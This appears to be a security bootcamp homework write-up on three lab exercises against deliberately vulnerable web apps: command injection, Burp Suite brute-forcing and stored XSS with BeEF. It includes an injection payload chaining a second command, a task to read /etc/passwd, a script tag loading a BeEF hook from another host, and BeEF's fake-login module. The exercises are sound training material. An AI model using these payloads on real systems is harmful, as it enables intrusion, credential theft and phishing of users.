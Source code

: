 # Web Application 1: Your Wish is My Command Injection

1. Complete the following to set up the activity.

   - Access Vagrant and open a browser.
   - Navigate to the following webpage: http://192.168.13.25 and select the Command Injection option.
   - Alternatively, access the webpage directly at this page: http://192.168.13.25/vulnerabilities/exec/
	 - The web page should look like the following: [Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/Setup.PNG)

2. This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
Complete the following steps to walkthrough the intended purpose of the web application.
	 - Test the webpage by entering the IP address 8.8.8.8. Press Submit to see the results display on the web application.
   - [8.8.8.8](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%201.PNG)

3. Test if we can manipulate the input to cause an unintended result.

    -  On the same webpage, enter the following command (payload) in the field: 8.8.8.8 && pwd
    -  Press Enter. Note the ping results are the results of the second pwd command:
    - [8.8.8.8 && pwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/8.8.8.8%20%26%26%20pwd.PNG)

4. Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
    - [etc/passwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%203.PNG)
    - [etc/hosts](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/etc_hosts.PNG)
6. Deliverables:
    - Setup
        ![Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/Setup.PNG)
    - 8.8.8.8
        ![8.8.8.8](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%201.PNG)
    - 8.8.8.8 && pwd
        ![8.8.8.8 && pwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/8.8.8.8%20%26%26%20pwd.PNG)
    - /etc/passwd
        ![/etc/passwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%203.PNG)
    - /etc/hosts
        ![/etc/hosts](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/etc_hosts.PNG)

 - Possible mitigation strategies:
   - 	Have input validation against untrusted inputs so that any input to the application that has not been previously validated must be examined first. 
   - 	Apply the principle of least privilege. Ensure that each web server can only access directories or files it should be able to access, as a second line of defense. 

# Web Application 2: A Brute Force to Be Reckoned With 

1. Complete the following steps to set up the activity.
   -  Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
2.  This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login. 
    - If the user/password combination is correct, it will return a successful message.
    - If the user/password combination is incorrect, it will return the message, "Invalid credentials."

3. Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
    - Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.
    - You've been provided with a list of administrators and the breached passwords:
      - List of Administrators
      - Breached list of Passwords
4. Deliverables:
    - Setup
        ![Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/bWapp%201.PNG)
    - Broken Authentication
        
        ![Broken Authentication](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/bWapp%202.png)
    
    - BurpSuite 1
        
        ![BurpSuite 1](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%201.png)
    - BurpSuite 2
        
        ![BurpSuite 2](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%202.png)
    - BurpSuite 3
        
        ![BurpSuite 3](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%203.png)
        
 - Possible mitigation strategies:
   - 	Set up Multi-factor Authentication
   -	Account Lockout after set number of invalid login attempts

# Web Application 3: Where’s the BeEF?

 - Task details:
   - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
   - The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
   - The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>

- When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.
	 
- Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
   - Social Engineering >> Facebook Login
   - Social Engineering >> Fake Notification Bar
   - Host >> Get Geolocation (Third Party)

- Deliverables:
   - Fake Notification Bar
        
        ![Fake Notification Bar](https://user-images.githubusercontent.com/93692721/167760596-e8d506ae-d396-4dd8-98a0-14fb1bc37b6f.png)
   - Facebook Login
        
        ![Social Engineering - FB Login](https://user-images.githubusercontent.com/93692721/167760461-40007697-54d0-482d-8fd4-0b9dc8bec353.png)
   - Geolocation
        
        ![Get Geolocation](https://user-images.githubusercontent.com/93692721/167760737-c249bcf1-9d52-4b9d-a078-8185a0285ab5.png)
  
Possible mitigation strategies:

   -	Sanitize user input and use validation to catch potentially malicious input 
   -	Limit use of user-provided data to only what’s necessary 
